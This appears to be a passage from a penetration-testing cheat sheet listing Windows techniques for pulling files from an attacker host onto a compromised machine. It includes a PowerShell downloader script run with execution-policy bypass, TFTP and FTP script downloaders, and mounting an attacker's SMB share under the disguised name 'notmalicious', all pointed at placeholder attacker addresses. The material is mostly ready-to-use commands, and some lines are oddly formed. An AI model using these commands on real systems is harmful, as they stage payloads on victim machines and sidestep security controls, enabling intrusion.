 ```
* Wget.ps1
```

```powershell
echo $storageDir = $pwd >> wget.ps1
$webclient = New-Object System.Net.WebClient >> wget.ps1
# Download file from
$url = "http://<ip>/file_name" >> wget.ps1
# Save file as
$file = "file_name"
echo $webclient.DownloadFile($url,$file) >>wget.ps1
# execute the script as follows
powershell.exe -nop -ep bypass -nol -noni -f wget.ps1
```

* TFTP (UDP)

```powershell
tftp -i <ip> get file_name
```

* SMB

```powershell
# cmd.exe
net use Z: \\<attacker_ip>\share_name
# To access the drive
Z:
# PowerShell
New-PSDrive -Name "notmalicious" -PSProvider "FileSystem" -Root "\\attacker_ip\share_name"
# To access the drive
notmalicious:
```

* FTP

```powershell
ftp <ip>
ftp>binary
ftp>get file_name

# One-liner downloader
# in cmd.exe do not use quotes in an echo command
echo open <ip> >> download.txt
echo anonymous >> download.txt
echo anon >> download.txt
echo binary >> download.txt
get file_name >> download.txt
bye >> download.txt
ftp -s:download.txt
```
